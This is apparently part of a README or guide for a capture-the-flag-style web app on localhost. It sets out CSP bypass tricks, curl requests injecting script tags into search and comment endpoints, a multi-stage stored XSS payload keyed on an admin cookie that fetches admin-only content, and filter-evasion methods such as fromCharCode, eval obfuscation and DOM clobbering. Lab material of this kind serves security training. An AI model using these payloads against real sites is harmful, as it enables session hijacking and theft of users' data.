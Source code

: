 ### **CSP Bypass Techniques:**
```javascript
// Using data URIs
<script src="data:text/javascript,alert('CSP Bypass')"></script>

// Event handlers on images
<img src=x onerror="eval(atob('YWxlcnQoJ0NTUCBCeXBhc3MnKQ=='))">

// SVG with embedded scripts
<svg><script>alert('CSP Bypass')</script></svg>
```

## **🧪 Testing Methodology**

### **1. Discovery Phase**
```bash
# Test search functionality
curl "http://localhost:5000/api/search/results?q=<script>alert('test')</script>"

# Check comment endpoints
curl -X POST http://localhost:5000/api/comments \
  -H "Content-Type: application/json" \
  -d '{"postId":"608f1f77bcf86cd799439021","content":"<script>alert(1)</script>"}'
```

### **2. Exploitation Phase**
```javascript
// Multi-stage payload for stored XSS
var payload = `
<script>
// Stage 1: Check if admin
if(document.cookie.includes('admin')) {
    // Stage 2: Exfiltrate admin data
    fetch('/api/admin/reported-content')
    .then(r => r.json())
    .then(data => {
        // Stage 3: Show flag
        document.getElementById('admin-flag').style.display = 'block';
    });
}
</script>`;
```

### **3. Advanced Techniques**
```javascript
// Bypass character restrictions
String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,39,88,83,83,39,41,60,47,115,99,114,105,112,116,62)

// Use template literals for obfuscation
eval(`al${''}ert('XSS')`)

// DOM clobbering
<form id="admin-flag"><input name="style" value="display:block !important"></form>
```
